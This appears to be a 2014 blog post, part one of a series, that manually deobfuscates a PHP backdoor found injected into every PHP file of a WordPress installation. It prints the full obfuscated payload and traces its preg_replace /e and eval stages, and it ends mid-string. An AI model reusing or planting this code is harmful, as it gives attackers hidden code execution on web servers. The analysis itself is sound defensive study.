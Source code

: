 ```yaml
---
layout: post
title: "Manual deobfuscation of a PHP snippet - Part 1"
date: 2014-10-10 20:50:00 +0200
comments: true
categories: 
---
```


In late July the following question was posted on a IRC-channel i frequent: 

> Anyone care to devise what an obfuscated PHP payload does?

Sure, why not, sounds like a challenge. This is part 1 of a series of blogposts explaining the headache-inducing three hours that followed.

<!-- more -->

The following snippet had been added to the top of _every_ PHP file in a Wordpress installation. Scroll right to see it all. _Far_ _right_.
```php
<?php $fognhntadd = '825h>#]y31]278]y3e]81]K78:56985:6197g>2b%x5c%x7825!<*qp%x5c%x7825-*.%x5c%x7825)euh]341]88M4P8]37]278]225]241]334]368]322]3]364]6]283ldbqov>*ofmy%x5c%x7825)utjm!|!*5!%x5c%x7827!hmg%x5c%156%x61"])))) { $GLOBALS["%x61%156%x75%156%x61"]=1;5c%x7860un>qp%x5c%x7825!|Z~!<##!>!2p%x5c%x7825!|!*!f!}Z;^nbsbq%x5c%x7825%x5c%x785cSFWSFT%x5c%x7860%x5c%x7825%x5c%x7825!*9!%x5c%x7827!hmg%x5c%x7825b*[%x5c%x7825h!>!%x5c%x7825fmjgk4%x5c%x7860{6~6<tfs%x5c%x7825w6<%x5%x5c%x78e%x5c%x78b%x5c%x7825w:!>!%x5c%x78246767~6<Cw6<pd#K#-#L#-#M#-#[#-#Y#-#D#-#W#-#C#-#O#-#N#*%x5c%x7824%x5c%x78OJ%x5c%x7860GB)fubfsdXA%x5c%x7827K6<%x5c%x787f%x35%165%x3a%146%x21%76c%x785c1^-%x5c%x7825r%x5c%x785c2^-%x5c%x7825hOh%x]DgP5]D6#<%x5c%x7825fdy>#]D4]273]D6P2L5P6]y6gPpde:4:|:**#ppde#)tutjyf%x5c%x78604%x5c%x78223}!+!<+{e%x5c%x7825+*!X6<#o]o]Y%x5c%x78257;utpI#7>%x5c%x782f7%x5c%x78257-C)fepmqnjA%x5c%x78!>!2p%x5c%x7825Z<^2%x5c%x785c2b%x5c%x7825!>!2px7822)gj6<^#Y#%x5c%x785cq%x5c%A)3of>2bd%x5c%x7825!<5h%x5c%x7825%x5c%x782f#0#%x5c%x782f*#n2f%x5c%x7825kj:-!OVMM*<(<%x5c%x78e%x5c%x78b%x5c%x7825ggg!>!#]y81]27d}R;*msv%x5c%x7825)}.;%x5c%x7860UQPMSVD!-id%x5c%x7825)uqpuft%x55c%x7825t2w>#]y74]273]y76]2x5c%x7825)7gj6<**2qj%x5c%x7825)hopm3qjA)qj3hopmA%x5c%x78273w6*3qj%x5c%x78257>%x5c%x782272qj%:74985-rr.93e:5597f-s.973:8297f:5297e:56-%x5c%x7878r.985:%x5c%x7825c:>%x5c%x7825s:%x5c%x785c%x5c%x7825j:^<!%x5mmvo:>:iuhofm%x5c%x7825:-5p function fjfgg($n){return chr(ord(]317]445]212]445]43]321]464]284]364]6]234]342x5c%x7824-%x5c%x7824tvctus)%x5c%x7825%x5c%x7824-%x7825iN}#-!tussfw)%x5c%x7825c*W%x5c%x78%x782f#%x5c%x7825#%x5c%x782f#o]#%x5c%x782f*)323zbe!-#jt0*?]+^?]_%x*w%x5c%x7825)kV%x5c%x7878{**f%x5c%x786057ftbc%x5c%x787f!|!*uyfu%x5c%x7827k:!ftmx5c%x787f!>>%x5c%x7822!pd%x5c%x78254y]552]e7y]#>n%x5c%x7825<#372]58y]472]37y]672]48y]#>s%x5c%x7%x78e%x5c%x78b%x5c%x7825mm)x7825tpz!>!#]D6M7]K3#<%x5c%x7825yy>#]D6]281L1#%x5c%x782f#M5x78257>%x5c%x782f7&6|7**111127-K)ebfsX5c%x787fw6*CW&)7gj6<*K)ftpmdXA6~6<u%x5c%d%x5c%x7825)Rb%x5c%x7825))!gj!<*#cd2bge56+99386c6f+9f5d816:+946:ce25z!>2<!gps)%x5c%x7825j>1<%x5c%x7825j#)usbut%x5c%x7860cpV%x5c%x787f%x5c%n%x5c%x7825)utjm6<%x#-#}+;%x5c%x7825-qp%x5c%29%51%x29%73", NULL); }c%x7824gps)%x5c%x7825j>1<%x55c%x7827,*d%x5c%x7827,*c%x5c%x7827,*b%x5c%x7827)fepdof.)fepdof.%x5c%x75c%x7825tww**WYsboepn)%x5c%x7825bss-%x5c%x7825r%x5c%x7878B%x5c%x723ldfidk!~!<**qp%x5c%x7825!-uy82fh%x5c%x7825)n%x5c%x7825-#+I#)q%x5c%x7825:>:r%x5c%x7825:|:**t%x5c%x7825)!gj!|!*1?hmg%x5cx5c%x782f7#@#7%x5c%x782f7^#iubq#%x5c%x785cq%x5c%x7825%x5c%x7827jx5c%x785cq%x5c%x78257**^#zsfvr#%x5c%x785cq%x5c%x7825)ufttj%x5c%opo#>b%x5c%x7825!*##>x7825)fnbozcYufhA%x5c%x78272qj%x7825)ftpmdR6<*id%x5c%x7825)dfyfR%0hfsq)!sp!*#ojneb#-*f%x5c%x7825)sf%x5c%x787%x5c%x7860hA%x5c%x7827pd%x5c%x78256<pd%x5c%x7825w6Z6<.3%x5c%x7867825%x5c%x7824-%x5c%x7824!>!f%x21%50%x5c%x7825%x5c%x7878:!x7825)!gj!<2,*j%x5c%x7825-#1]#-bubE{h%x5c%x7825)tpqsut>j&Z&S{ftmfV%x5c%x787f<*XAZASV<*w%x5c%x7825)ppde>u%x5c%x7825V<#65,475c%x7860QIQ&f_UTPI%x5c%x7860QUUI&e_SEEB%x5c%x7860FUPtjw!>!#]y84]275]y83]248]y85tmw!>!#]y84]275]y83]273]y76]277#<%x824-%x5c%x7824%x5c%x785c%x5c%x7825j^%5)tpqsut>j%x5c%x7825!*72!%x5c%x7827!hmg%x5c%y3:]84#-!OVMM*<%x22%51%xc%x7860msvd},;uqpuft%x5c%x7860msvd}+%x5c%x7827u%x5c%x7825)7fc%x787f;!|!}{;)gj}l;33bq}k;opjudovg}%x5c%x7827tfs%x5c%x78256<*17-SFEBFI,6<*127-UVP5%x5c%x7860{66~6<&w6<%x5c%x787fw6*CW&)7gj6<*doj$n)-1);} @error_reporting(0); preg_replace("%x2f%50%x2e%52%|!*bubE{h%x5c%x7825)j{h782f35.)1%x5c%x782f14+9**-)1%x5c%x782f2986+7**^%x5c%x782ftuofuopd%x5c%x7860ufh%x5c%x7860fmjg}[;ldpt%x5c%x7825}K;%x5c%c%x7860hA%x5c%x7827pd%x5c%x78256<pd%x5c%x7825w6Z6<.4x7825>U<#16,47R57,27R66,#%x5c%x782fq%xisset($GLOBALS["%x61%156%x75x5c%x7824-%x5c%x7824<%x5c%x7825j,,*!|%x5c%x7824-%x5c%x7824gvodujpo!%x5c%x782%x5c%x7860bj+upcotn+qsvmt+fmhpph#)zbssb!-#}#)!>!{e%x5c%x7825)!>>%x5c%x7822!ftmbg)!gj<*#k%x782f%x5c%x7824)#P#-#Q#-#B#-#T#-#E#-#G#-#H#-#I#-]27]28y]#%x5c%x782fr%x5c%x7825%x5c%x77eu{66~67<&w6<*&7-#o]s]o]s]#)fepmqyf%x5c%x7827*&7-<!%x5c%x7825o:!>!%x5c%x78:]268]y7f#<!%x5c%x7825tww!>!%x5c%x782400~:<h%x5c%x7825_t%x5c%x7825:osv%x7825):fmji%x5c%x7878%x5c%x7825r%x5c%x7878<~!!%x5c%x7825s:N"%x6f%142%x5f%163%x74%141%x72%164") && (!]y81]273]y76]258]y6g]273]y76]271]y7d]252]y74]256#us%x5c%x7860sfqmbdf)%x5c%x7825%x5c%mji%x5c%x78786<C%x5c%x7827&6<*rfs%x5c%x78257-K)fujs%x5c%x7878<.[A%x5c%x7827&6<%x5c%x787fw6*%x5c%x787f_*#[k2%x5c]y6g]273]y76]271]y7d]252]y74]256]y39]252]y83]273]y72]282#<!%x5c%x78257L6M7]D4]275]D:M8]Df#<%25>j%x5c%x7825!<**3-j%x5c%x7825-bubE{h%x5c%x7825)sutcvt-#w#)]58]24]31#-%x5c%x7825tdz*Wsfuvso!%x5c%x7825bss%x5c%x785csboe))1%x5c%xc%x7824-tusqpt)%x5c%x7825z-#:#*%x5c%x7824-%x5c%x7824!>!tFNJU,6<*27-SFGTOBSUOSVUFS,6<*msv%x5c%x78257-MSV,6<*)ujojR%x5c%x7%x7825)!gj!<**2-4-bubE{h%x5c%x7825)sutcvt)esp>hm827{**u%x5c%x7825-#jt0}Z;0]=]0#)2q%x5c%x7825l}S;2-u%x5c%x7825!-#2#%x5cx7825%x5c%x7827Y%x5c%x7825652]y85]256]y6g]257]y86]267]y74]275]y725eN+#Qi%x5c%x785c1^W%x5c%x7825c!>!%x5c%x7825i%x5c%x785c2^<!Ce*[!%x5tdz)%x5c%x7825bbT-%x5c%x7825bT-%x5c%x7825hW~%x5c}X;!sp!*#opo#>>}R;msv}.;}V;3q%x5c%x7825}U;y]}R;2]},;osvufs}%x5c%x7827;mnui}&;zepc}A;~!}%x5%x5c%x7825ww2)%x5c%x7825w%x5c%x7860TW~%x5c%x7824<%x5c<.msv%x5c%x7860ftsbqA7>q%x5c%x78256<%x5c%x787fw6*%x5c%x787f_*#fubfsdXk]y81]265]y72]254]y76]61]yh%x5c%x7825!<*::::::-111112)eobs%xnpd!opjudovg!|!**#j{hnpd#)tutj%162%x61%171%x5f%155%x61%160%x28%42%x66%152%x66%147%x67%42%xc%x7860MPT7-NBFSUT%x5c%x7860LDPT7-UF7825)3of:opjudovg<~%x5c%x78245]K2]285]Ke]53Ld]53]Kc]55Ld]551%x6d%160%x6c%157%x64%145%x28%141%x72NFS&d_SFSFGFS%x5c%x7860QUUI&c_UOFHB%x5c%x7860SFTV%x5c%x7860QUU#k#)tutjyf%x5c%x7860%x5c%x7878%x5c%x7822l:!]y4:]82]y3:]62]y4c#<!%x5c%x7825t::!>!%!%x5c%x7825b:>%x5c%x7825s:%x5c%x785c%x5c%x7825j:.2^,%x5c%x7825b:<!27&6<.fmjgA%x5c%x7827doj%x5c%x78256<%x5c%x787fw6*%x5c%x787f_*#5#*<%x5c%x7825bG9}:}.}-}!#*<%x5c%x7825nfd>%x5c%x7825fdy<C787f;!opjudovg}k~~9{d%x5c%x7825:osvufs:~928>>%x5c%x73]256]y81]265]y72]254]y76#<%x5c%x782x7825)54l}%x5c%x7827;%x5c%x7825!<*#}_;#)323ldfid>}&;!osvufs}%x5c%xrfs%x5c%x78256<#o]1%x5c%x782f20QUUI7jsv%x5c%x782tutjyf%x5c%x7860opjudovg)!gj!|!*msv%x5c%x7825)}k~~~<ftmbg!osvufs!|ftm8984:71]K9]77]D4]82]K6]72]K9]78]K5]53]Kc#<%x5c%>#]y3g]61]y3f]63]y3:]68]y76#<jepdoF.uofuopD#)sfebfI{jg!)%x5c%x7825z>>2*!%x5I&b%x5c%x7825!|!*)323zbek!~!<b%x5c%x7825%x5c%x787f!<X>b%x5c%x7825Z<#822:ftmbg39*56A:>:8:|:7#6#)tutjyf%x5c%x7860439275ttfsqnpdov{htussfw)%x5c%x7825zW%x5c%x7825h>EzH,2W%x5c%x782%x7825)m%x5c%x7825=*h%x5c%x7825)m%x5cx7825!<***f%x5c%x7827,*e%xufs:~:<*9-1-r%x5c%x7825)s%x5c%x825<#462]47y]252]18y]#>q%x5c%x7825<#762]67y]562]y31M6]y3e]81#%x5c%x782f#7e:55946-tr.984:75983:4>X)!gjZ<#opo#>b%x5c%x7825!**1y]c9y]g2y]#>>*4-1-bubE{h%x5c%x7825)sutcvt)!gj!qj%x5c%x78256<*Y%x5c%c%x7825cIjQeTQcOc%x5c%x782f#00#W~!Ydrr)%x5c%x7825r%x5c%x7878Bsfuvs57UFH#%x5c%x7827rfs%x5c%x78256~6<%x5c%x787fw6<*K)ftpm8pmpusut)tpqssutRe%x5c%x7825)Rc%x7825z>3<!fmtf!%x5c%x7825z>2<!c%x787fw6*CWtfs%x5c%x7825)7gj6<*id%x5c%x5c%x7824Ypp3)%x5c%x7825cB%x5cvodujpo)##-!#~<#%x5c%x782f%x5c%x%x5c%x7825w6Z6<.5%x5}#-%x5c%x7825o:W%x5c%x7825c:>1<%x5c%x7825b:>1<!gps)%x5c%x78254-%x5c%x7824y7%x5c%x7824-%x5c%x7824*<!%x5c%x7824-%x5x5c%x7878;0]=])0#)U!%x5c%x7fu%x5c%x7825)3of)fepdo%x5c%x7825!*3>?*2b%x5c%x7825)gpf{jt)!gj!<*2bd%x5c%x7>q%x5c%x7825V<*#fopoV;ho0hA%x5c%x7827pd%x5c%x78256<pd%x5c%x7825w6Z6<.2%x5c%x7861]y35]256]y76]72]y3d]51]y35]274dXA6|7**197-2qj%x5c%x78257-K)udfoopdXA%x5c%x7822)7gj6<*QDU%x5f!~<**9.-j%x5c%x7825-bubE{h%x5c%x7825)sutcvt)fubmgoj{hA!o0hA%x5c%x7827pd%x5c%x78256<C%x5c%x7827pd%x5c%x78256|6.=6[%x5c%x7825ww2!>#p#%x5c%x782f#p#%x5c%x782f%x5c%x7825z<if((function_exists(x5c%x78256<^#zsfvr#%x5c%x785cq%x5c%x78257%x69%164%50%x22%134%x78%62***b%x5c%x7825)sf%x5c%x7878pmpusut!38y]572]48y]#>m%x5c%x7825:|:*r%x5c%x7825:-t%x5c%x827id%x5c%x78256<%x5c%x787fw6*%x5c%x787f_*#ujojRk3%x5c%x7860{6R25,d7R17,67R37,#%x5c%x782fq%x5c%82f#@#%x5c%x782fqp%x5c%x7825>5o!sboepn)%x5c%x7825epnbss-%x5c%x7825r%x5c%x7878W~x7860ufldpt}X;%x5c%x7860msv%x5c%x782f#%x5c%x782f#%x5c%x782f},;x29%57%x65","%x65%166%x61%154%x28%1%x5c%x7824b!>!%x5c%x7825yy)#}#-#%x5c%x7824-%x552985-t.98]K4]65]D8]86]y31]278]y3f]51L3]84])!gj}Z;h!opjudovg}{;#)sv%x5c%x78256<C>^#zsfvr#%5c%x785c}X%x5c%x7824<!%x5c%x7825tzw>!#]y76]277]y72]265]y39]274]y85]273x5c%x7825tdz>#L4]275L3]248L3P6L1M5]D2P4]D6#<%x5c%x7825G]y6d]281Ld]24%x7860{6:!}7;!}6;##}C;!>>!}W;utpi}Y;5wN;#-Ez-1H*WCw*[!%x5c%x7825rN}#QwTW%x5c%x7825hIr%x5yqmpef)#%x5c%x7824*<!%x5c%x7825kj:!>!#]y3d]52c%163%x74%162%x5f%163%x70%154%3]y76]258]y6g]273]y76]271]y7d]252]y74]256#<!%x5c%x7825ggg)(0)%x%x7825j:>>1*!%x5c%x7825b:>1<!fmtf19275j{hnpd19275fubmgoj{h1:|:*7825>%x5c%x782fh%x5c%x7825:<pd%x5c%x782f#)rrd%x5c%x782f#00;quui#>.%x5c%svufs!~<3,j%x5c%x7825>j%x5c%x7825!*3!%x5c%x7827!hmg%x5c%x7825!)!gj!<g%x5c%x7825!<12>j%x5c%x7825!|!*#95c%x782f+*0f(-!#]y76]277]y72]265]y39]271]y83]256]y78]248]y83]2565%x5c%x7824-%x5c%x7824*!|!%x5c%x744#)zbssb!>!ssbnpe_GMFT%x)!gj!~<ofmy%x5c%x7825,3,j%x5c%x78<!%x5c%x7825ff2!>!bssbz)%x5c%x7824]25%x5c%x7824-%x5c%x7824-!%x5c%x782c%x7825j=tj{fpg)%x5c%x7825%x5c%x7824-%x5c%x7824*<!~!dsfbuf%x5c%x7860gj:>1<%x5c%x7825j:=tj{fpg)%x5c%x7825s:*<%x5c%x7825j:,,Bjg!)%x5c]427]36]373P6]36]73]83]238M7]381]211M5]67]452]88]5]48]32M3yf%x5c%x7860opjudovg%x5c%x7822)!gj}1~!<2p%x5c%x7825%x5c%x787f!~!<##5c%x782f#00#W~!%x5c%x7825t2w)##Qtjw)#]82#-#!#-%x5c%x7825tmw)%x33]68]y34]68]y33]65]y31]53]y6d]281]y43]78]y33]65]y31]55]y85]82]y76]62]-#j0#!%x5c%x782f!**#sfmcnbs+yfeobz+sfwjidsb2,*j%x5c%x7825!-#1]#-bubE{h%x5c%x782:<##:>:h%x5c%x7825:<#6**#57]38y]47]67y]37]88y5c%x7825>2q%x5c%x7825<#g6R85,67R37,18R#%x5c%x7825%x5c%x7878:-!%x5c%x7825tzw%x5c%x7825fdy)##-!#~<%x5c%x7825h00#*<%x5c%x7825nfd)##Qtpz)#x7824-%x5c%x7824y4%x5c%x7824-%x5c%x7824]y8%x5c%x7824-%x5c%x7824]26%242178}527}88:}334}472%x5c%x7824<!%x5c%x7825mm!>!#66~6<&w6<%x5c%x787fw6*CW&)7gj6fepmqnj!%x5c%x782f!#0#)idubn%x5c%x786c%x7825w%x5c%x7860%x5c%x785c^>Ew:Qb:Qc:W~!%x5c%x78X)ufttj%x5c%x7822)gj!|!*nbsbq%x5c%x7825)3!Ypp2)%x5c%x7825zB%x5c%x7825z>!*+fepdfe{h+{d%x5c%x7825)+opjudovg+)!gj+{e%x5c%x7825!osvufs!*!+A;!>!}%x5c%x7827;!>>>!}_;gvc%x5c%x7825}&;ftmbg}%x5c%x787f;!osvufs}w;*%825-#1GO%x5c%x7822#)fepmqyfAx787f%x5c%x787f%x5c%x787f<u%x5c%x7825V%x5c%x7827{ftmfV%x5c%x787f<*X/(.*)/epreg_replacempfqsmkdas'; $sjeykdhzzn = explode(chr((238-194)),'7526,20,4122,41,3639,28,183,52,1382,35,3350,59,7933,35,5453,38,5299,60,8374,31,7588,25,608,23,2791,29,6137,29,448,56,6954,20,3549,52,2698,64,7212,55,7416,54,3917,50,2092,20,1914,40,1876,38,3197,24,4247,61,792,39,5973,48,6738,53,7298,61,5359,36,562,46,1212,33,1153,59,6651,21,2590,31,7546,42,2442,64,8079,25,2506,63,907,30,4817,27,5140,70,3303,47,831,30,5700,62,408,40,6853,39,2621,34,3258,45,4635,64,7697,62,9690,30,4308,50,8242,36,3489,60,7871,27,1063,63,3161,36,9942,69,1695,35,8057,22,6021,69,7359,57,8602,68,9358,36,3093,44,2820,56,343,38,8825,33,4450,60,132,51,2419,23,4699,48,8670,33,6604,47,3409,23,5269,30,9116,67,861,46,7136,52,10011,28,37,45,937,59,8559,43,6424,26,2187,70,7792,30,5235,34,235,51,7613,35,9315,43,3743,45,9720,37,2655,43,6791,30,1954,66,8800,25,2942,52,5491,62,6212,68,2569,21,6576,28,9807,41,2322,30,7114,22,1644,51,286,57,4997,24,7898,35,2112,24,5907,66,5819,52,6280,61,8501,30,1355,27,726,66,9879,63,3788,43,2057,35,10039,67,2876,66,7759,33,3601,38,9439,39,7188,24,6166,23,1616,28,5553,43,5021,66,3221,37,7087,27,4747,70,1550,66,8104,70,4358,69,2994,26,5871,36,3020,36,1126,27,4844,37,3992,70,6450,31,8531,28,9416,23,3880,37,2352,67,6387,37,4062,22,9394,22,1730,60,6481,48,7648,49,5395,29,3967,25,9640,50,4163,49,8858,69,8767,33,3056,37,1462,48,7968,46,4579,56,4212,35,9573,67,3667,26,3693,50,7035,52,2159,28,8927,69,6922,32,2762,29,8330,44,7267,31,5596,38,6892,30,1510,40,4881,68,6672,66,7822,49,9848,31,6341,46,8278,52,631,49,9183,62,2257,65,0,37,1245,57,8014,43,6529,47,6090,47,1817,59,680,46,4427,23,8174,68,5424,29,5762,57,381,27,4949,48,9518,55,82,50,9058,58,1417,45,4510,69,3432,57,4084,38,6974,61,8996,62,8468,33,5634,66,1302,53,9757,50,2020,37,7470,56,6189,23,6821,32,5087,53,1790,27,9478,40,3831,49,504,58,996,67,8405,63,8703,64,5210,25,9245,70,3137,24,2136,23'); $jekjvzbupt=substr($fognhntadd,(67419-57313),(30-23)); if (!function_exists('otmxvqaaam')) { function otmxvqaaam($kruvavlbfw, $tmpdlccpfv) { $knpzekviot = NULL; for($mektnikgre=0;$mektnikgre<(sizeof($kruvavlbfw)/2);$mektnikgre++) { $knpzekviot .= substr($tmpdlccpfv, $kruvavlbfw[($mektnikgre*2)],$kruvavlbfw[($mektnikgre*2)+1]); } return $knpzekviot; };} $wrewusbqxp="\x20\57\x2a\40\x67\172\x6d\143\x69\170\x72\146\x69\146\x20\52\x2f\40\x65\166\x61\154\x28\163\x74\162\x5f\162\x65\160\x6c\141\x63\145\x28\143\x68\162\x28\50\x31\70\x33\55\x31\64\x36\51\x29\54\x20\143\x68\162\x28\50\x33\66\x31\55\x32\66\x39\51\x29\54\x20\157\x74\155\x78\166\x71\141\x61\141\x6d\50\x24\163\x6a\145\x79\153\x64\150\x7a\172\x6e\54\x24\146\x6f\147\x6e\150\x6e\164\x61\144\x64\51\x29\51\x3b\40\x2f\52\x20\151\x61\153\x78\144\x62\143\x6b\156\x72\40\x2a\57\x20"; $flwwfkzecg=substr($fognhntadd,(50154-40041),(83-71)); $flwwfkzecg($jekjvzbupt, $wrewusbqxp, NULL); $flwwfkzecg=$wrewusbqxp; $flwwfkzecg=(419-298); $fognhntadd=$flwwfkzecg-1; ?>
```

After adding some newlines and replacing some strings with placeholders we can read the code without pondering our political stance.

```php
<?php 
$fognhntadd = '<horribly long string of non-random characters>'; 

$sjeykdhzzn = explode(
		chr((238-194)),
		'<long string of numbers separated by comma>'
		); 

$jekjvzbupt=substr($fognhntadd,(67419-57313),(30-23)); 

if (!function_exists('otmxvqaaam')) { 
	function otmxvqaaam($kruvavlbfw, $tmpdlccpfv) { 
		$knpzekviot = NULL; 
		for ($mektnikgre=0; $mektnikgre<(sizeof($kruvavlbfw)/2); $mektnikgre++) { 
		$knpzekviot .= substr($tmpdlccpfv, 
				$kruvavlbfw[($mektnikgre*2)],
				$kruvavlbfw[($mektnikgre*2)+1]
				); 
		} 
		return $knpzekviot; 
	};
} 

$wrewusbqxp="<long string of hex-escaped text>"; 
$flwwfkzecg=substr($fognhntadd,(50154-40041),(83-71)); 
$flwwfkzecg($jekjvzbupt, $wrewusbqxp, NULL); 
$flwwfkzecg=$wrewusbqxp;
$flwwfkzecg=(419-298);
$fognhntadd=$flwwfkzecg-1;

?>
```

Let's see if we can make the code a bit more readable:

The ```$fognhntadd``` on line 1 is not code to be executed, but is there to be used by the rest of the code. We can't really make it more readable at this point. 

 ```$sjeykdhzzn``` on line four appears to split its second argument on ```chr((238-194))```. [chr](http://php.net/manual/en/function.chr.php) returns a one-character string containing the character specified by the decimal argument. ```chr(238-194) = chr(44)```, and a quick look in ```man ascii``` tells us that the ASCII character with a decimal value of 44 is , (comma). This means ```$sjeykdhzzn``` will evaluate to an array consisting of 456 (0-455) numbers, every other large (1000+) and small(<50). 

 ```$jekjvzbupt``` on line 9 is a [substring](http://php.net/manual/en/function.substr.php) of the horribly long ```$fognhntadd``` - but how to know what without counting to 10106? (67419-57313=10106).

The code does not appear to to anything dangerious, so let's try to parse it using a PHP engine! *google "run php code online"*. The second result, [sandbox.onlinephpfunctions.com](http://sandbox.onlinephpfunctions.com/) looks promising.

Pasting in ```$fognhntadd```, ```$jekjvzbupt``` and a [var_dump](http://php.net/manual/en/function.var-dump.php), tells us that ```$jekjvzbupt``` evaluates to the string ```/(.*)/e```. While i didn't know at the time, if this string is used in [preg_replace](http://php.net/manual/en/function.preg-replace.php) on a system using PHP prior to 5.5.x, it is basically the same as [eval](http://php.net/manual/en/function.eval.php).

We will skip the function ```otmxvqaaam``` for now.

The escaped string ```$wrewusbqxp``` get the same treatment, and returns the following code:

```
 /* gzmcixrfif */ eval(str_replace(chr((183-146)), chr((361-269)), otmxvqaaam($sjeykdhzzn,$fognhntadd))); /* iakxdbcknr */ 
```

 ```$flwwfkzecg``` evaluates to ```preg_replace```, why am i not surprised?

Line 26 uses ```$flwwfkzecg``` as a function name, and can thus be written like this:

```php
preg_replace('/(.*)/e', 'eval(str_replace(chr((183-146)), chr((361-269)), otmxvqaaam($sjeykdhzzn,$fognhntadd)));', NULL);
```

This can also be written like this, reusing the techniques used above:

```php
$foo = otmxvqaaam($sjeykdhzzn, $fognhntadd);
$bar = str_replace('%', '\\', $foo); # '\\' => \
eval($bar);
```

Suddenly understanding the function ```otmxvqaaam``` defined on line 12 becomes interesting. After renaming some of the variables, the function becomes somewhat easier to read. 

```php
function otmxvqaaam($start_and_length_array, $string) {
	$return_value = NULL; 
	for ($i=0; $i < (sizeof($start_and_length)/2); $i++) {
		$start = $start_and_length_array[($i*2)]
		$length = $start_and_length_array[($i*2)+1]
		$return_value .= substr($string, $start, $length); 
	} 
	return $return_value; 
};
```

This function uses ```$start_and_length_array``` together with ```substr``` as a [grille](http://en.wikipedia.org/wiki/Cardan_grille). The even number positions(0,2,4...) of the array are the positions in the ciphertext, while the odd (1,3,5...) positions are the lengths.

I concluded that the last three lines did nothing that was worth analyzing. We now have enough data to make the code easier to read.

```php
<?php 
$fognhntadd = '<horribly long string of non-random characters>'; 

$sjeykdhzzn = array() {
	0 => "7526",
	1 => "20",
	...
	454 => "2136",
	455 => "23"	
}

function otmxvqaaam($start_and_length_array, $string) {
	$return_value = NULL; 
	for ($i=0; $i < (sizeof($start_and_length)/2); $i++) {
		$start = $start_and_length_array[($i*2)]
		$length = $start_and_length_array[($i*2)+1]
		$return_value .= substr($string, $start, $length); 
	} 
	return $return_value; 
};

$foo = otmxvqaaam($sjeykdhzzn, $fognhntadd);
$bar = str_replace('%', '\\', $foo); # '\\' => \
eval($bar);

?>
```

Since the code up to this point does nothing active (exec, system, fwrite, ...), we can replace ```eval``` with echo in our code, and get the following result:

```php
<?php
if((
	function_exists("\x6f\142\x5f\163\x74\141\x72\164") && 
   	(!isset($GLOBALS["\x61\156\x75\156\x61"]))
  )) { 
  
  $GLOBALS["\x61\156\x75\156\x61"]=1; 

  function fjfgg($n){ 
    return chr(ord($n)-1);
  } 

@error_reporting(0); 

 preg_replace("\x2f\50\x2e\52\x29\57\x65","\x65\166\x61\154\x28\151\x6d\160\x6c\157\x64\145\x28\141\x72\162\x61\171\x5f\155\x61\160\x28\42\x66\152\x66\147\x67\42\x2c\163\x74\162\x5f\163\x70\154\x69\164\50\x22\134\x78\62\x35\165\x3a\146\x21\76\x21\50\x5c\x7825\x5c\x7878:!>#]y3g]61]y3f]63]y3:]68]y76#<\x5c\x78e\x5c\x78b\x5c\x7825w:!>!\x5c\x78246767~6<Cw6<pd\x5c\x7825w6Z6<.5\x5c\x7860hA\x5c\x7827pd\x5c\x78256<pd\x5c\x7825w6Z6<.4\x5c\x7860hA\x5c\x7827pd\x5c\x78256<pd\x5c\x7825w6Z6<.3\x5c\x7860hA\x5c\x7827pd\x5c\x78256<pd\x5c\x7825w6Z6<.2\x5c\x7860hA\x5c\x7827pd\x5c\x78256<C\x5c\x7827pd\x5c\x78256|6.7eu{66~67<&w6<*&7-#o]s]o]s]#)fepmqyf\x5c\x7827*&7-n\x5c\x7825)utjm6<\x5c\x787fw6*CW&)7gj6<*K)ftpmdXA6~6<u\x5c\x78257>\x5c\x782f7&6|7**111127-K)ebfsX\x5c\x7827u\x5c\x7825)7fmji\x5c\x78786<C\x5c\x7827&6<*rfs\x5c\x78257-K)fujs\x5c\x7878X6<#o]o]Y\x5c\x78257;utpI#7>\x5c\x782f7rfs\x5c\x78256<#o]1\x5c\x782f20QUUI7jsv\x5c\x78257UFH#\x5c\x7827rfs\x5c\x78256~6<\x5c\x787fw6<*K)ftpmdXA6|7**197-2qj\x5c\x78257-K)udfoopdXA\x5c\x7822)7gj6<*QDU\x5c\x7860MPT7-NBFSUT\x5c\x7860LDPT7-UFOJ\x5c\x7860GB)fubfsdXA\x5c\x7827K6<\x5c\x787fw6*3qj\x5c\x78257>\x5c\x782272qj\x5c\x7825)7gj6<**2qj\x5c\x7825)hopm3qjA)qj3hopmA\x5c\x78273qj\x5c\x78256<*Y\x5c\x7825)fnbozcYufhA\x5c\x78272qj\x5c\x78256<^#zsfvr#\x5c\x785cq\x5c\x78257\x5c\x782f7#@#7\x5c\x782f7^#iubq#\x5c\x785cq\x5c\x7825\x5c\x7827jsv\x5c\x78256<C>^#zsfvr#\x5c\x785cq\x5c\x78257**^#zsfvr#\x5c\x785cq\x5c\x7825)ufttj\x5c\x7822)gj6<^#Y#\x5c\x785cq\x5c\x7825\x5c\x7827Y\x5c\x78256<.msv\x5c\x7860ftsbqA7>q\x5c\x78256<\x5c\x787fw6*\x5c\x787f_*#fubfsdXk5\x5c\x7860{66~6<&w6<\x5c\x787fw6*CW&)7gj6<*doj\x5c\x78257-C)fepmqnjA\x5c\x7827&6<.fmjgA\x5c\x7827doj\x5c\x78256<\x5c\x787fw6*\x5c\x787f_*#fmjgk4\x5c\x7860{6~6<tfs\x5c\x7825w6<\x5c\x787fw6*CWtfs\x5c\x7825)7gj6<*id\x5c\x7825)ftpmdR6<*id\x5c\x7825)df